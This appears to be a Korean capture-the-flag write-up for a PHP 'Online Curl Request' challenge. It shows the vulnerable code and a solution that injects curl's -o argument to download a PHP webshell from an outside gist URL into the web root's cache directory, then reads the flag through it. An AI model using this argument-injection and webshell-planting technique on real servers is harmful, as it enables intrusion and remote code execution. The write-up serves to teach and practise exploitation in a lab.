 ```yaml
---
title: "[2025-07-26] Command Injection advanced"
excerpt: "Command Injection 심화"

categories:
  - Problem
tags:
  - [Command Injection]

permalink: /Problem/[2025-07-26] Command Injection advanced/

toc: true
toc_sticky: true

date: 2025-07-26
last_modified_at: 2025-07-26
---
```


## 🦥 본문

- index.php

```python
<html>
    <head></head>
    <link rel="stylesheet" href="/static/bulma.min.css" />
    <body>
        <div class="container card">
        <div class="card-content">
        <h1 class="title">Online Curl Request</h1>
    <?php
        if(isset($_GET['url'])){
            $url = $_GET['url'];
            if(strpos($url, 'http') !== 0 ){
                die('http only !');
            }else{
                $result = shell_exec('curl '. escapeshellcmd($_GET['url']));
                $cache_file = './cache/'.md5($url);
                file_put_contents($cache_file, $result);
                echo "<p>cache file: <a href='{$cache_file}'>{$cache_file}</a></p>";
                echo '<pre>'. htmlentities($result) .'</pre>';
                return;
            }
        }else{
        ?>
            <form>
                <div class="field">
                    <label class="label">URL</label>
                    <input class="input" type="text" placeholder="url" name="url" required>
                </div>
                <div class="control">
                    <input class="button is-success" type="submit" value="submit">
                </div>
            </form>
        <?php
        }
    ?>
        </div>
        </div>
    </body>
</html>
```

$_GET[’url’]을 통해 url을 받는 데, http로 시작하면 die()를 실행한다. 

escpaeshellcmd를 통해 인젝션을 보호하고 curl 을 통해 셸 명령어를 실행시킨다. 해당 url은 cache 디렉토리 및에 해싱하여 저장한다. 

### 풀이

`-o` 인자를 통해 웹셸 파일을 업로드하여 실행해야 FLAG 파일을 알 수 있다.

1. 웹쉘 코드가 포함된 서버를 만듦
2. 해당 웹쉘 코드를 방문하고 -o 인자를 통해 실행 결과를 저장
3. 해당 파일에 접근하여 flag 를 알아낼 수 있다.

위와 같은 방법은 서버가 있어야 해서 다른 방법 Github raw file 링크를 이용한 방법이 있다.

github raw file 링크는 응답 body에 해당 코드를 보내줘서 해당 코드를 볼 수 있는 파일이다.

1. 웹쉘 코드를 응답 바디로 보내는 gitraw file 링크

```python
https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/50008b4501ccb7f804a61bc2e1a3d1df1cb403c4/easy-simple-php-webshell.php
```

1. 해당 링크에다 아래의 코드를 추가하여 webshell.php 파일을 만든다

```python
-o /var/www/html/cache/webshell.php
```

1. cache/webshell.php에 접속하여 웹쉘 코드에 `/flag` 에 접근하여 flag를 획득한다.